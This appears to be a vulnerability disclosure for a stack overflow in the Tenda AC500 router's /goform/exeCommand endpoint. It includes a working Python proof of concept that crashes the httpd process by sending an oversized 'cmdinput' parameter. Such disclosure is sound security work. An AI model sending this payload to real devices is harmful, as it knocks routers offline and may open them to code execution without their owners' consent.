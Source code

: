 # Affected Version
Tenda AC500 V2.0.1.9(1307)
# Vulnerability Description
Tenda AC500 V2.0.1.9(1307) was discovered to contain a stack overflow via parameter cmdinput at url /goform/exeCommand.

# Firmware download address
https://www.tenda.com.cn/download/detail-2470.html

# Vulnerability Details
In function fromDhcpListClient line 18, src is a a user-controlled parameter(‘cmdinput’) and is read in without length check.Then in line 19, the content of src is copied into local variable s, which leads to a stack overflow vulnerbility.
![Alt text](1.png)  

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of bin/httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'cmdinput': 'a' * 0x1000}

headers = {
    'Host': '192.168.88.138',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.138/goform/exeCommand'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

# Timeline  

# Acknowledgment  
Credit to @peris-navince from Beijing University of Posts and Telecommunications.